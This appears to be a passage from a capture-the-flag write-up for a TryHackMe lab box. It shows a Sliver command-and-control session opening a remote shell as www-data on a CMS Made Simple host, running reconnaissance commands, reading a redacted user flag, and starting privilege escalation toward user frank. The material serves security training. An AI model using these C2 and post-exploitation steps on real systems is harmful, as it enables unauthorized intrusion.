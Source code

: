 **Now we can interact with the new session!**
```
sliver > sessions -i e546ea92

[*] Active session PLAIN_BANKER (e546ea92)

sliver (PLAIN_BANKER) > 
```

**Let's start an interactive shell!**
```
sliver (PLAIN_BANKER) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 22962

www-data@toc:/var/www/html/cmsms$ whoami;hostname;id;ip a
www-data
toc
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:ce:63:e0:0d:67 brd ff:ff:ff:ff:ff:ff
    inet 10.10.248.228/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2304sec preferred_lft 2304sec
    inet6 fe80::ce:63ff:fee0:d67/64 scope link 
       valid_lft forever preferred_lft forever
www-data@toc:/var/www/html/cmsms$ ^C
www-data@toc:/var/www/html/cmsms$ 
```

**user.txt:**
```
www-data@toc:/var/www/html/cmsms$ cat /home/frank/user.txt 
thm{Redacted}
```

## Privilege Escalation

### www-data to frank

**In user `frank` home directory, we can see an interesting file and a directory:**
```
www-data@toc:/var/www/html/cmsms$ ls -lah /home/frank
[...]
-rw-r--r-- 1 frank frank  331 Aug 17  2020 new_machine.txt
drwxr-xr-x 2 frank frank 4.0K Jan 31  2021 root_access
```
